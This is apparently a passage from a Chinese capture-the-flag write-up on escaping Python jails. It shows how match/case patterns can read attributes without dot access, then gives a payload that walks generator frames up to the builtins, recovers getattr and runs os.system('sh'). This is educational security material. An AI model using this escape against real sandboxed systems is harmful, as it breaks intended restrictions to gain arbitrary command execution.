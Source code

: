 查看[这个博客的第一节](https://pid-blog.com/article/noval-pyjail-tricks)，我们可以使用如下语句来绕过这个限制。

```python
class Foo:
    bar = 114514
foo = Foo()

match foo:
    case Foo(bar=val): # Foo 为 foo 对应的类，可用 object 替换
        print(val) # val 即为 foo.bar
```

然后我们可以将 Pyjail 4 的 Payload 改成这样：

```python
def f():
    global x, frame

    # frame = x.gi_frame
    match x:
        case object(gi_frame=val):
            frame = val

    # while frame.f_back: # 向上回溯到最外层
    #     frame = frame.f_back 
    tmp = frame
    while tmp:
        frame = tmp
        match frame:
            case object(f_back=val):
                tmp = val

    yield
x = f()

# x.send(None)
match x:
    case object(send=val):
        val(None)

# builtins = frame.f_globals['__builtins__']
match frame: # type: ignore 防止 Pylance 报错，因为 frame 是动态生成的
    case object(f_globals=val):
        builtins = val['__builtins__']

# getattr = builtins.getattr # 恢复 getattr 方法，从而避免直接访问 __import__ 属性
match builtins:
    case object(getattr=val):
        myGetattr = val

myGetattr(myGetattr(builtins, '__import__')('os'),('system'))('sh')
```

##### Pyjail 6
